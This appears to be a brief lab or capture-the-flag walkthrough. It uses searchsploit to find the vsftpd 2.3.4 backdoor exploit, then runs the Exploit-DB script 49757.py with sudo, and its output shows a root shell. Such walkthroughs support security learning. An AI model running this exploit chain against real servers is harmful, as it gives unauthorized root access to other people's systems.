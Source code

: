 `searchsploit vsftpd`
```
vsftpd 2.3.4 - Backdoor Command Execution                                         | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                            | unix/remote/17491.rb
```

`find / -name "49757.py" 2> /dev/null`
```
/usr/share/exploitdb/exploits/unix/remote/49757.py
```
see with `less` what is this script doing

`stat /usr/share/exploitdb/exploits/unix/remote/49757.py`
```
File: /usr/share/exploitdb/exploits/unix/remote/49757.py
  Size: 1101            Blocks: 8          IO Block: 4096   regular file
Device: 801h/2049d      Inode: 3298785     Links: 1
Access: (0755/-rwxr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2022-07-12 12:58:59.935883323 -0400
Modify: 2021-11-18 00:02:10.000000000 -0500
Change: 2021-12-20 01:19:03.863582624 -0500
 Birth: 2021-12-20 01:18:58.487582804 -0500
```
it is execatuable

`sudo python3 /usr/share/exploitdb/exploits/unix/remote/49757.py`
```
Success, shell opened
Send `exit` to quit shell
```

`id;whoami`
```
uid=0(root) gid=0(root)
root
```
qed